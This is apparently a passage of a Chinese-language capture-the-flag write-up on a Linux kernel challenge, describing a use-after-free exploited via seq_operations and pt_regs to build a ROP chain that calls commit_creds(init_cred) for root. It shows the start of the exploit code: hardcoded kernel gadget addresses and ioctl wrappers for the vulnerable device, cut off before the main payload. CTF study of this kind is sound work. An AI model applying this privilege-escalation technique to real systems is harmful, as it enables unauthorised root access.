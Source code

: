 ### 解法：UAF + seq_operations + pt_regs + ROP

题目没有说明，那笔者默认应该是没开 Hardened Freelist，现在又有 UAF，那么解法就是多种多样的了，笔者这里选择用 `seq_operations` + `pt_regs` 构造 ROP 进行提权：

exp 如下：

```c
#include <fcntl.h>
#include <stddef.h>

#define COMMIT_CREDS 0xffffffff810c8d40
#define SEQ_OPS_0 0xffffffff81319d30
#define INIT_CRED 0xffffffff82663300
#define POP_RDI_RET 0xffffffff81089250
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00f30

long dev_fd;

struct op_chunk
{
    size_t  idx;
    size_t  size;
    void    *buf;
};

struct alloc_chunk
{
    size_t  size;
    void    *buf;
};

void readChunk(size_t idx, size_t size, void *buf)
{
    struct op_chunk op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x40, &op);
}

void writeChunk(size_t idx, size_t size, void *buf)
{
    struct op_chunk op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x50, &op);
}

void deleteChunk(size_t idx)
{
    struct op_chunk op = 
    {
        .idx = idx,
    };
    ioctl(dev_fd, 0x30, &op);
}

void allocChunk(size_t size, void *buf)
```